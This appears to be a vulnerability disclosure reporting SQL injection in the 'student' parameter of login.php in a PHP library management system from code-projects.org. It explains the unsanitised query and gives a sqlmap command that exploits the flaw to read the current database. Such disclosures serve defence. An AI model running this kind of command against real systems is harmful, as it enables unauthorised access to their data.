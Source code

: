 **Title:** Library Management System In PHP With Source Code (Ver.2.0) login.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Audit:**

The argument `student` concatenated to query without being sanitized, resulting in sql injection

![image-20250702134729823](./images/image-20250702134729823.png)

**Verify:**

*Environment*: The database is named "libsystem" as follows:

![image-20250702142632175](./images/image-20250702142632175.png)

- Step 1: Save the request to a.txt

![image-20250702142747304](./images/image-20250702142747304.png)

- Step2: exploit

```shell
sqlmap -r a.txt -p student  --batch --current-db --flush-session
```

![image-20250702143158256](./images/image-20250702143158256.png)



